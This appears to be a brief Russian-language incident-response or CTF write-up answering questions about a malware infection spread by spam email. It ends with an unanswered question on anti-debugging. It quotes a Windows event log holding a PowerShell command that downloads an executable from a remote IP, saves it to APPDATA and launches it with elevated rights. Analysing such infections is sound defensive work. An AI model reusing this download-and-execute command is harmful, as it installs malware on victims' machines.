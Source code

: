 # 1 Как ВПО попало на компьютер?
Через спам рассылку на почту

# 2 С какого сервера?
Посмотрев события винды видим откуда был скачан файл:

ip: http://95.169.192.220:8080
Logfile:

```
file:///C:/Users/Evgeniy/AppData/Local/Temp/Rar$DIa2900.6159/TOP_SECRET.pdf
Trojan:Win32/Znyonm
Поставщик "Registry" находится в состоянии Started. 

Подробные сведения: 
	ProviderName=Registry
	NewProviderState=Started

	SequenceNumber=1

	HostName=ConsoleHost
	HostVersion=5.1.19041.906
	HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1
	HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop
	EngineVersion=
	RunspaceId=
	PipelineId=
	CommandName=
	CommandType=
	ScriptName=
	CommandPath=
	CommandLine=
```

# 4 Какие методы противодействия отладке использует программа? 